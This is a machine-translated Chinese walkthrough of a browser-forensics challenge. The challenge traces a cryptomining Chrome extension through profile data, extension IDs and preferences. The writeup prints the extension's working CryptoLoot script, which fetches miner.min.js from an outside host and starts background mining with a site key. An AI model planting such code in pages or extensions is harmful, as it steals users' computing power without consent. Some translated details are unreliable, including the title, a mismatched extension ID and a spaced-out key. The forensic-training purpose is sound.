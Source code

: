 # 传感器浏览器—密码浏览器

> 原文：<https://infosecwriteups.com/browser-forsensics-cyptominer-49e5beeb4433?source=collection_archive---------1----------------------->

# 挑战描述

→我们的 SOC 发出警报，有一些流量来自一台刚刚加入网络的电脑，与加密挖掘相关。事件响应团队立即采取行动，发现流量来自浏览器应用程序。使用 FTK 成像仪收集所有关键浏览器数据后，您需要使用 ad1 文件来调查加密挖掘活动。

*   **ADI(accessdataimage)磁盘镜像文件包含取证工具包镜像数据。**

1.  **谷歌浏览器中有多少浏览器配置文件？**

→ **2**

```
C:\Documents and Settings\”USER NAME”\Local Settings\Application Data\Google\Chrome\User Data\Default\Profile 1\Extensions
```

— — — — — — — — — — — — — — — — — — — — — — — — — —

**2。谷歌 Chrome 上安装的浏览器主题叫什么？** → **太空中的地球** **偏好**:

```
"theme":{
"id":"iiihlpikmpijdopbaegjibndhpgjmjfe",
"pack":"C:\\\\Users\\\\IEUser\\\\AppData\\\\Local\\\\Google\\\\Chrome\\\\User Data\\\\Default\\\\Extensions\\\\iiihlpikmpijdopbaegjibndhpgjmjfe\\\\1.6_0"
}
```

[https://chrome.google.com/webstore/detail/земля-в-космосе/iiihlpikmpijdopbaegjibndhpgjmjfe](https://chrome.google.com/webstore/detail/%D0%B7%D0%B5%D0%BC%D0%BB%D1%8F-%D0%B2-%D0%BA%D0%BE%D1%81%D0%BC%D0%BE%D1%81%D0%B5/iiihlpikmpijdopbaegjibndhpgjmjfe)

— — — — — — — — — — — — — — — — — — — — — — — — — —

**3。识别加密程序的扩展名 ID 和扩展名**

```
"ids": [
        "aapocclcgogkmnckokdopfmhonfmgoek",
        "aohghmighlieiainnegkcijnfilokake",
        "egnfmleidkolminhjlkaomjefheafbbb",
        "felcaaldnbdncclmgdcncolpebgiejap",
        "ghbmnnjooekpmoecnnnilnnbdlolhkhi",
        "iiihlpikmpijdopbaegjibndhpgjmjfe",
        "kbfnbcaeplbcioakkpcpgfkobkghlhen",
        "pgjjikdiikihdfpoppgaidccahalehjh",
        "pkedcjkdefgpdelpbcmbmeomcjbeemfm"
      ],
```

→egnfmleidkolminjlkaomjefheafbbb，DFP 加密货币挖掘器

```
<script src="<https://crypto-loot.com/lib/miner.min.js>"></script>
<script>
var miner=new CryptoLoot.Anonymous('b23efb4650150d5bc5b2de6f05267272cada06d985a0',
        {
        threads:3,autoThreads:false,throttle:0.2,
        }
);
miner.start();
</script>
<script>
	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ }) // Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond(20);
		var totalHashes = miner.getTotalHashes(256000000);
		var acceptedHashes = miner.getAcceptedHashes(); // Output to HTML elements...
	}, 1000);
</script>
```

— — — — — — — — — — — — — — — — — — — — — — — — — —

**4。这个扩展的描述文本是什么？**

→允许员工在其网络浏览器的后台挖掘加密货币

— — — — — — — — — — — — — — — — — — — — — — — — — —

**5。浏览器扩展中使用的特定 javascript web miner 的名称是什么？**

**→ CryptoLoot**

— — — — — — — — — — — — — — — — — — — — — — — — — —

6。crypto miner 每秒计算多少散列？

→ 20

— — — — — — — — — — — — — — — — — — — — — — — — — —

7。与此挖掘活动相关联的公钥是什么？

→b 23 efb 4650150 D5 BC 5 de 6 f 05267272 cada 06d 985 a 0

— — — — — — — — — — — — — — — — — — — — — — — — — —

8。javascript web miner 的官方 Twitter 页面的 URL 是什么？

→[twitter.com/cryptolootminer](http://twitter.com/cryptolootminer)

谢谢:)

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。查看更多详情并在此注册。

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)